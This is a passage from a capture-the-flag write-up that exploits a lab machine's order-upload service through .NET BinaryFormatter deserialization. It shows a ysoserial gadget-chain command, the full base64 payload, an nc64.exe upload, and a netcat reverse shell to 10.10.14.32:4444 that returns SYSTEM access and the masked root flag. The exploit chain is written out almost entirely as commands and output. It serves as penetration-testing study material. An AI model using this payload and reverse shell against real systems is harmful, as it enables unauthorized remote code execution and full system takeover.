YDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24GAAAICAkHAAAAAAAAAAAAAAARBwAAAAAAAAAL
10/01/2025 17:12:21	Connecting to server📌
10/01/2025 17:12:22	Received from server: SCRAMBLECORP_ORDERS_V1.0.3;📌
10/01/2025 17:12:22	Parsing server response
10/01/2025 17:12:22	Response type = Banner
10/01/2025 17:12:22	Sending data to server:📌 UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAEVEVTVAYEAAAABFRFU1QGBQAAAAZKIEhhbGwJBgAAAAAA6bkJMd0IAAAAAICHw0AEBgAAAH9TeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24GAAAICAkHAAAAAAAAAAAAAAARBwAAAAAAAAAL📌
10/01/2025 17:12:22	Getting response from server
10/01/2025 17:12:22	Received from server: SUCCESS;
10/01/2025 17:12:22	Parsing server response
10/01/2025 17:12:22	Response type = Success
10/01/2025 17:12:22	Upload successful
```

`echo 'AQAAAAAAAAAMAgAAAEJTY3JhbWJsZUxpYiwgVmVyc2lvbj0xLjAuMy4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAABZTY3JhbWJsZUxpYi5TYWxlc09yZGVyBwAAAAtfSXNDb21wbGV0ZRBfUmVmZXJlbmNlTnVtYmVyD19RdW90ZVJlZmVyZW5jZQlfU2FsZXNSZXALX09yZGVySXRlbXMIX0R1ZURhdGUKX1RvdGFsQ29zdAABAQEDAAABf1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLkxpc3RgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0NBgIAAAAABgMAAAAEVEVTVAYEAAAABFRFU1QGBQAAAAZKIEhhbGwJBgAAAAAA6bkJMd0IAAAAAICHw0AEBgAAAH9TeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5TdHJpbmcsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24GAAAICAkHAAAAAAAAAAAAAAARBwAAAAAAAAAL' | base64 -d`:
```
BScrambleLib, Version=1.0.3.0, Culture=neutral, PublicKeyToken=nullScrambleLib.SalesOrder
                                                                                         _IsComplete_ReferenceNumber_QuoteReference     _SalesRep
                                                                                                                                                 _OrderItem_DueDate
TESTTESTJ Hallem��ollect1���@System.Collections.Generic.List`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]_items_siz_version
```

`locate -i 'nc64.exe'`:
```
/home/nabla/tools/nc.exe/nc64.exe
```

`cp /home/nabla/tools/nc.exe/nc64.exe ./`


`upload nc64.exe`:
```
Info: Uploading /home/nabla/nc64.exe to C:\Users\miscsvc\Documents\nc64.exe
                                        
Data: 60360 bytes of 60360 bytes copied
                                        
Info: Upload successful!
```

`dir`:
```
    Directory: C:\Users\miscsvc\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/12/2025   2:35 PM          45272 nc64.exe
```


`rlwrap nc -lnvp 4444`:
```
listening on [any] 4444 ...
```


`./ysoserial.exe -f 'BinaryFormatter' -g 'WindowsIdentity' -o 'base64' -c "C:\Users\miscsvc\Documents\nc64.exe -e powershell 10.10.14.32 4444"`:
```
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAAlApBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBOFFVOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0TVRZaVB6NE5DanhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWElnVFdWMGFHOWtUbUZ0WlQwaVUzUmhjblFpSUVselNXNXBkR2xoYkV4dllXUkZibUZpYkdWa1BTSkdZV3h6WlNJZ2VHMXNibk05SW1oMGRIQTZMeTl6WTJobGJXRnpMbTFwWTNKdmMyOW1kQzVqYjIwdmQybHVabmd2TWpBd05pOTRZVzFzTDNCeVpYTmxiblJoZEdsdmJpSWdlRzFzYm5NNmMyUTlJbU5zY2kxdVlXMWxjM0JoWTJVNlUzbHpkR1Z0TGtScFlXZHViM04wYVdOek8yRnpjMlZ0WW14NVBWTjVjM1JsYlNJZ2VHMXNibk02ZUQwaWFIUjBjRG92TDNOamFHVnRZWE11YldsamNtOXpiMlowTG1OdmJTOTNhVzVtZUM4eU1EQTJMM2hoYld3aVBnMEtJQ0E4VDJKcVpXTjBSR0YwWVZCeWIzWnBaR1Z5TGs5aWFtVmpkRWx1YzNSaGJtTmxQZzBLSUNBZ0lEeHpaRHBRY205alpYTnpQZzBLSUNBZ0lDQWdQSE5rT2xCeWIyTmxjM011VTNSaGNuUkpibVp2UGcwS0lDQWdJQ0FnSUNBOGMyUTZVSEp2WTJWemMxTjBZWEowU1c1bWJ5QkJjbWQxYldWdWRITTlJaTlqSUVNNlhGVnpaWEp6WEcxcGMyTnpkbU5jUkc5amRXMWxiblJ6WEc1ak5qUXVaWGhsSUMxbElIQnZkMlZ5YzJobGJHd2dNVEF1TVRBdU1UUXVNeklnTkRRME5DSWdVM1JoYm1SaGNtUkZjbkp2Y2tWdVkyOWthVzVuUFNKN2VEcE9kV3hzZlNJZ1UzUmhibVJoY21SUGRYUndkWFJGYm1OdlpHbHVaejBpZTNnNlRuVnNiSDBpSUZWelpYSk9ZVzFsUFNJaUlGQmhjM04zYjNKa1BTSjdlRHBPZFd4c2ZTSWdSRzl0WVdsdVBTSWlJRXh2WVdSVmMyVnlVSEp2Wm1sc1pUMGlSbUZzYzJVaUlFWnBiR1ZPWVcxbFBTSmpiV1FpSUM4K0RRb2dJQ0FnSUNBOEwzTmtPbEJ5YjJObGMzTXVVM1JoY25SSmJtWnZQZzBLSUNBZ0lEd3ZjMlE2VUhKdlkyVnpjejROQ2lBZ1BDOVBZbXBsWTNSRVlYUmhVSEp2ZG1sa1pYSXVUMkpxWldOMFNXNXpkR0Z1WTJVK0RRbzhMMDlpYW1WamRFUmhkR0ZRY205MmFXUmxjajRMCw==
```


`nc 10.10.11.168 4411`:
```
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAAlApBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBOFFVOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0TVRZaVB6NE5DanhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWElnVFdWMGFHOWtUbUZ0WlQwaVUzUmhjblFpSUVselNXNXBkR2xoYkV4dllXUkZibUZpYkdWa1BTSkdZV3h6WlNJZ2VHMXNibk05SW1oMGRIQTZMeTl6WTJobGJXRnpMbTFwWTNKdmMyOW1kQzVqYjIwdmQybHVabmd2TWpBd05pOTRZVzFzTDNCeVpYTmxiblJoZEdsdmJpSWdlRzFzYm5NNmMyUTlJbU5zY2kxdVlXMWxjM0JoWTJVNlUzbHpkR1Z0TGtScFlXZHViM04wYVdOek8yRnpjMlZ0WW14NVBWTjVjM1JsYlNJZ2VHMXNibk02ZUQwaWFIUjBjRG92TDNOamFHVnRZWE11YldsamNtOXpiMlowTG1OdmJTOTNhVzVtZUM4eU1EQTJMM2hoYld3aVBnMEtJQ0E4VDJKcVpXTjBSR0YwWVZCeWIzWnBaR1Z5TGs5aWFtVmpkRWx1YzNSaGJtTmxQZzBLSUNBZ0lEeHpaRHBRY205alpYTnpQZzBLSUNBZ0lDQWdQSE5rT2xCeWIyTmxjM011VTNSaGNuUkpibVp2UGcwS0lDQWdJQ0FnSUNBOGMyUTZVSEp2WTJWemMxTjBZWEowU1c1bWJ5QkJjbWQxYldWdWRITTlJaTlqSUVNNlhGVnpaWEp6WEcxcGMyTnpkbU5jUkc5amRXMWxiblJ6WEc1ak5qUXVaWGhsSUMxbElIQnZkMlZ5YzJobGJHd2dNVEF1TVRBdU1UUXVNeklnTkRRME5DSWdVM1JoYm1SaGNtUkZjbkp2Y2tWdVkyOWthVzVuUFNKN2VEcE9kV3hzZlNJZ1UzUmhibVJoY21SUGRYUndkWFJGYm1OdlpHbHVaejBpZTNnNlRuVnNiSDBpSUZWelpYSk9ZVzFsUFNJaUlGQmhjM04zYjNKa1BTSjdlRHBPZFd4c2ZTSWdSRzl0WVdsdVBTSWlJRXh2WVdSVmMyVnlVSEp2Wm1sc1pUMGlSbUZzYzJVaUlFWnBiR1ZPWVcxbFBTSmpiV1FpSUM4K0RRb2dJQ0FnSUNBOEwzTmtPbEJ5YjJObGMzTXVVM1JoY25SSmJtWnZQZzBLSUNBZ0lEd3ZjMlE2VUhKdlkyVnpjejROQ2lBZ1BDOVBZbXBsWTNSRVlYUmhVSEp2ZG1sa1pYSXVUMkpxWldOMFNXNXpkR0Z1WTJVK0RRbzhMMDlpYW1WamRFUmhkR0ZRY205MmFXUmxjajRMCw==
```

```
[...]

connect to [10.10.14.32] from (UNKNOWN) [10.10.11.168] 55502
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```
🐚


`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---       12/01/2025     13:57             34 root.txt 
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
01845***************************🚩
```


---
---
